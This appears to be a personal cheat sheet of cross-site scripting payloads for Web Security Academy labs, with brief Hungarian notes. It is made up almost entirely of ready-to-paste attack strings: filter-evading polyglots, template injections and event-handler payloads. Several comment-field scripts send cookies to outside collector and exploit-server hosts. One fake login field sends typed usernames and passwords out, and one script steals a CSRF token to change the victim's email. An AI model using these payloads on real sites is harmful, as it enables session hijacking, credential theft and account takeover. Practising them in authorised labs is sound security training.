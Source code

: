 <><SCript>alert(1)</SCript>


"><svg onload=alert(1)>


<img src=1 onerror=alert(1)>


javascript:alert(document.cookie)


exploit serverbe:
<iframe src="https://0a18008d03221cf38046036c00c20021.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(document['cookie']) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(document['cookie'])//>\x3e


"></select>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


"onmouseover="alert(1)


{{constructor.constructor('alert(1)')()}}


{{$on.constructor('alert(1)')()}}


\"-alert(1)}//


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(2)//>\x3ea
<><img src=1 onerror=alert(3)>


<><img src=1 onerror=alert(1)>


exploit serverbe:
<script>
location = 'https://0add00df0415f10881e16b000075005b.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>


exploit serverbe:
<iframe src="https://0ae800cc04eb684982872ac0006500e6.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=document.location=`https://exploit-0a32008804f9687e82932985016800df.exploit-server.net/?kookie=`+document.cookie%3E" onload=this.style.width='100px'>


httéps://blablabla.net/ után:
?'accesskey='x'onclick='alert(1)


httéps://blablabla.net/?search= után:
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E


\'-alert(1)//


</script><script>alert(1)</script>


Website mezőben:
http://foo?&apos;-alert(1)-&apos;


${alert(1)}


commentben:
<script>
    fetch('https://xyzbptj5cccuj168v3n6d8yklbr2ft3i.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>


commentben:
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://rid59n3zw6wo3vq2fx70x2ie55bwzond.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">


commentben:
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
